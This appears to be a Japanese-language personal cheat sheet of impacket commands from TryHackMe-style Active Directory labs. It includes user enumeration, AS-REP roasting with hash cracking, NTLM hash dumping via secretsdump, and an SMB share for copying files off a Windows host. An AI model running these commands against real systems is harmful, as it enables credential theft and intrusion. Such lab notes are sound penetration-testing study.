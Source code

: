 # impacket

全然まとまっていないので、今後整理する

0.9.20 以降不安定なため、0.9.19 推奨。

https://github.com/fortra/impacket/releases/tag/impacket_0_9_19

```
cd /opt

https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19
からコンパイル済みパッケージをダウンロード

cd Impacket-0.9.19 /opt/impacket

pip install .
これにより必要な依存関係がすべてインストール
```

### ユーザー名列挙

```sh
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@$TARGET
```

```sh
# ASREPRoasting攻撃 によるチケット取得。その後ハッシュをクラック。
# hashcat -m 18200 ./hash.txt ./passwords.txt
python3 /home/kali/tools/impacket/examples/GetNPUsers.py 'THM-AD/' -usersfile names.txt -no-pass -dc-ip 10.10.249.47
```

```sh
# NTLM ハッシュ抽出
python3 /home/kali/tools/impacket/examples/secretsdump.py -just-dc-ntlm THM-AD/backup@10.10.249.47
```

### ファイル共有設定（kali）

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
# username と password は省略可
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

### パスワードハッシュ抽出

```sh
python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

### AS-REP Roasting

```sh
python3 /home/kali/tools/impacket/examples/GetNPUsers.py -dc-ip 10.10.194.124 controller.local/ -usersfile users.txt
```
